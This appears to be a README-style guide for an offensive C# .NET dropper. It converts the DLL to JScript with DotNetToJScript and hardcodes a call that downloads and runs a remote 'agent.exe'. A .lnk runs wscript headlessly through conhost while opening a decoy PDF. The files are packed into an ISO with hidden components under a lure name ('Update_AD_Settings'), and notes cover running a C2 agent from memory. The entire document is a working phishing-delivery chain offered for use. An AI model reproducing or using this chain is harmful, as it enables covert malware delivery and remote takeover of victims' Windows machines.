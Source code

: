 # Dropper (C#, .NET)

- C# dropper Gets compiled into .DLL

Using DotNetToJScript(.exe) to convert it to Javascript:
```
# Where "MainFunction" is the Main Public Class name; the entry Point
.\DotNetToJScript.exe 'C:\\test.dll' -l JScript -v v4 -c MainFunction -o cradle_deb.js
```

Modifying our resulting JS file, we need to hardcode an argumnent for `InvokeMain()`:

`o.InvokeMain("<URL>/agent.exe");` 

Where "`o`" is the instance of the main class of the DLL ("o" is arbitrarily generated by `DotNetToJScript` as it can be seen on the resulting Javascript file), we just need to append this line at the end so our `invokeMain()` function can be called.

# Execution

Having 3 files (A .lnk, the JS file and a PDF),

.lnk file:
```
%WINDIR%\System32\Conhost.exe --headless conhost conhost conhost conhost conhost "%COMSPEC%" "/c wscript config.js | file.pdf"
```

Hide/Pack our JS, PDF and .LNK files into an ISO:

```powershell
# ARG 1: Absolute path to folder with files to "pack" (Without trailing "\" at the end)
# ARG 2: Out file (ISO)
# ARG 3: Files to "hide" (There are 3 files in WORKING_AREA. Of those, only the ones in --hide will be hidden)
python.exe .\PackMyPayload.py "C:\\WORKING_AREA" update_ad_settings.iso --hide Update_AD_Settings.config.js,Update_AD_Settings.pdf
```

Main Notes: 
- When C2 agent ran from memory, DLL needs to pass in an empty argument (Not NULL) - Else, the program crashes (C# Lines 538 onward).
- The client machine (Which runs the JS file) needs to have .NET framework installed.
